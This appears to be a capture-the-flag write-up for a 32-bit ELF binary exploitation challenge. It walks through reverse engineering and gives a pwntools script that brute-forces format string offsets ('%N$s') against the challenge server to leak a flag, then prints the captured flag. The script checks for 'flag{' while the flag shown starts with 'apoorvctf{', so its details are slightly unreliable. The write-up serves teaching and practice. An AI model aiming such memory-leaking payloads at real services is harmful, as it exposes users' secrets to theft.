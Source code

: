# !Kogarashi Café - The Secret Blend  

**Category:** Binary Exploitation  

A challenge that involves analyzing a binary and exploiting format string vulnerabilities to retrieve the flag.  

---

### Challenge  

**Provided File:** `secret_blend`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file secret_blend` to determine the binary type:
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00003bb9e0cd2a32ea61c4b60004ed82aa94d4a9, not stripped
     ```
   - Run `strings secret_blend` to find readable text inside:
     ```sh
     Barista: 'The special blend is missing...
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d secret_blend > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **format string vulnerability** that can be exploited to leak memory and extract the flag.
   - The challenge is to find the correct offset in the format string to retrieve the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file secret_blend  
   checksec --file=secret_blend  
   strings secret_blend  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze its functions and identify vulnerable inputs.  
   - The program does not properly sanitize user input, making it susceptible to a format string attack.  

3. **Exploit Format String Vulnerability**  
   - Use a script to test different offsets and locate the flag in memory.  

---

## Exploit Script  

```python
#!/usr/bin/env python3
from pwn import *

def test_offset(offset):
    try:
        # Create a new connection for each attempt
        p = remote("chals1.apoorvctf.xyz", 3003)
        # Wait until the prompt appears (using bytes)
        p.recvuntil(b"What will you have?")
        # Craft the payload for the given offset
        payload = f"%{offset}$s".encode()
        p.sendline(payload)
        # Use recvall to get all data until the connection closes
        response = p.recvall(timeout=2)
        p.close()
        return response
    except EOFError:
        # If the connection is closed before we receive data, return empty bytes
        return b""

def main():
    flag = None
    # Try offsets 1 through 15 to see which one leaks the flag
    for offset in range(1, 16):
        response = test_offset(offset)
        print(f"Offset {offset}: {response}")
        if b"flag{" in response:
            flag = response
            log.success("Flag found: " + flag.decode(errors="ignore"))
            break
    if flag is None:
        log.error("Flag not found. Adjust the offset range if needed.")

if __name__ == "__main__":
    main()
```

---

## Extracted Flag  

```
apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}
```

This write-up details the steps taken to analyze the binary, identify the vulnerability, and exploit it to retrieve the flag.

